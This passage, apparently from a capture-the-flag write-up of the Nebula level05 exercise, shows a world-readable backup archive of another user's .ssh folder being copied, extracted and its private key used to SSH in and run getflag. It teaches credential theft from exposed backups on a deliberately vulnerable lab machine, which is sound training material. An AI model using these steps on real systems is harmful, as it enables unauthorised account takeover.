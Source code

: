 ``` plain
tar: .ssh/authorized_keys: Cannot open: No such file or directory
tar: Exiting with failure status due to previous errors
```

Oops! It looks like this is a backup of the *.ssh* folder but we only have read permissions in this directory:

``` plain
level05@nebula:/tmp$ ls -l /home/flag05/.backup/
total 2
-rw-rw-r-- 1 flag05 flag05 1826 2011-11-20 20:13 backup-19072011.tgz
```

Not a problem though! We can just move the archive to a directory where we have more freedom:

``` plain
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp/
level05@nebula:/tmp$ tar vzxf backup-19072011.tgz 
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

And now with flag05's private key, we can SSH to the machine and run *getflag*:

``` plain
level05@nebula:/tmp/.ssh$ ssh -i id_rsa flag05@localhost
  
      _   __     __          __     
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ / 
  /_/ |_/\___/_.___/\__,_/_/\__,_/  
                                    
    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```
